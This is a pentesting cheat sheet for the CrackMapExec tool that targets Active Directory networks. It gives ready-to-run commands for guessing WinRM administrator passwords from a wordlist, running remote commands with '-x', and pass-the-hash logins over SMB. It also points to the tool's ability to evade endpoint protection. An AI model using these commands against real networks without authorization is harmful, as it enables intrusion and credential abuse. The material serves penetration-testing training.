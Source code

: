 # CrackMapExec

"**_A swiss army knife for pentesting networks..._**" [ [Documentation](https://ptestmethod.readthedocs.io/en/latest/cme.html) ]
- CrackMapExec (a.k.a CME) is a `post-exploitation` tool that helps automate assessing the security of large Active Directory networks. 
- Built with stealth in mind, CME follows the concept of “Living off the Land”: abusing built-in Active Directory features/protocols to achieve it’s functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

**Supported Protocols:** `WinRM`, `MSSQL`, `SMB`, `SSH`

## Contents
- [Help]()
- [Examples]()
- [WinRM]()
- [Pass-the-Hash (SMB)]()

## Help
- For help and syntax, just issue the command: `crackmapexec`
- [Cheat Sheet](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

```
crackmapexec -h
crackmapexec winrm -h  # for help specific to the winrm protocol
crackmapexec smb -h    # for help specific to the smb protocol, etc.
```

## General Syntax

```
crackmapexec <protocol> <target(s)> -u username -p password
```

## Examples

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'   # or...
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

## WinRM

**Syntax:**

```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```

You can use the `-u` switch to specify a file of possile user names to try.  
- But, if we can get into the admin account, we don't have to do priv esc (so we test with one username, "administrator," first).
- You should get a green `[+]` if successful.

Look over the output (from the top down): 
- First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).

**Execute Commands:** 

If you successfully found login credentials, you can crackmapexec to execute arbitrary Windows commands on the target machine. Examples:

```
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "whoami"
# You should get some happy feedback along with the results of your command execution.
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "systeminfo"
# This takes a while to run but provides a lot of information about your target system.
```

## Pass-the-Hash (SMB)

**Syntax:**

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]"
```

This should indicated whether or not it works. 

If you get a green `[+]` and (`Pwn3d!`) then it works and you can try the execution of commands on the system...

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]" -x "ipconfig"
```

It should give you visual feedback about the command execution. And there you go. Execute what you want.
